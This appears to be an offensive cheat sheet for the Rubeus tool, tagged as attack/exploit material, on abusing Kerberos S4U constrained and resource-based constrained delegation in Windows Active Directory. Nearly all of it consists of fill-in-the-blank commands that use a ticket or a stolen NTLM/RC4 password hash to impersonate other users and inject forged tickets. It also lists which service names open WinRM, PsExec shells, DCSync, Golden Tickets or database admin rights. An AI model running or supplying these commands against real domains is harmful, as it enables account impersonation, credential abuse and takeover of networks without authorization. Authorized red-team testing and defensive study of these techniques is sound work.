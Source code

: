 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 

## S4U - Constrained delegation abuse (ptt)
#cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<kirbi_path_or_b64_blob> /impersonateuser:<user> /msdsspn:<svc|ldap>/<target> /ptt
```

## S4U - Constrained delegation abuse (pth)
#cat/ATTACK/EXPLOIT 
wmi: HOST, RPCSS
PowerShell Remoting: HOST, HTTP
WinRM: HOST, HTTP, WINRM
Scheduled Tasks: HOST
Windows File Share, also psexec: CIFS
LDAP operations, included DCSync: LDAP
Windows Remote Server Administration Tools: RPCSS, LDAP, CIFS
Golden Tickets: krbtgt
DB admin: MSSQLSvc
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:<svc|ldap>/<target> /domain:<domain_fqdn> /ptt
```


## S4U - Constrained delegation abuse with alternative spn (ptt)
#cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<kirbi_path_or_b64_blob> /impersonateuser:<user> /msdsspn:<svc|ldap>/<target> /altservice:<service_comma_sep> /ptt
```

## S4U - Constrained delegation abuse with alternative spn (pth)
#cat/ATTACK/EXPLOIT 
wmi: HOST, RPCSS
PowerShell Remoting: HOST, HTTP
WinRM: HOST, HTTP, WINRM
Scheduled Tasks: HOST
Windows File Share, also psexec: CIFS
LDAP operations, included DCSync: LDAP
Windows Remote Server Administration Tools: RPCSS, LDAP, CIFS
Golden Tickets: krbtgt
DB admin: MSSQLSvc
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:<svc|ldap>/<target> /altservice:<service_comma_sep> /domain:<domain_fqdn> /ptt
```

## S4U - Resource based constrained delegation
#cat/ATTACK/EXPLOIT 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:<svc|ldap>/<target> /domain:<domain_fqdn> /ptt
```